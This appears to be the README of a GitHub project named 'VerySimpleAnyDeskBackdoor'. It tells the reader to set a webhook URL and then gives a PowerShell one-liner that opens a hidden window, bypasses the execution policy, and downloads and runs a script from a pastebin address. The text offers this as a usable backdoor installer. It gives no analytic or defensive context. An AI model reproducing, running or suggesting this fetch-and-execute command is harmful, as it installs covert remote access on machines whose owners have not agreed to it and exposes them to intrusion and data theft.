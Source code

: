 # VerySimpleAnyDeskBackdoor

Don't forget to change the $webhookUrl parameter to your desired one.
Run this as a oneliner:

Start-Process powershell.exe -ArgumentList "-NoProfile -ExecutionPolicy Bypass -WindowStyle Hidden -Command Invoke-Expression (New-Object Net.WebClient).DownloadString('https://pastebin.com/raw/wR5bkkut')"
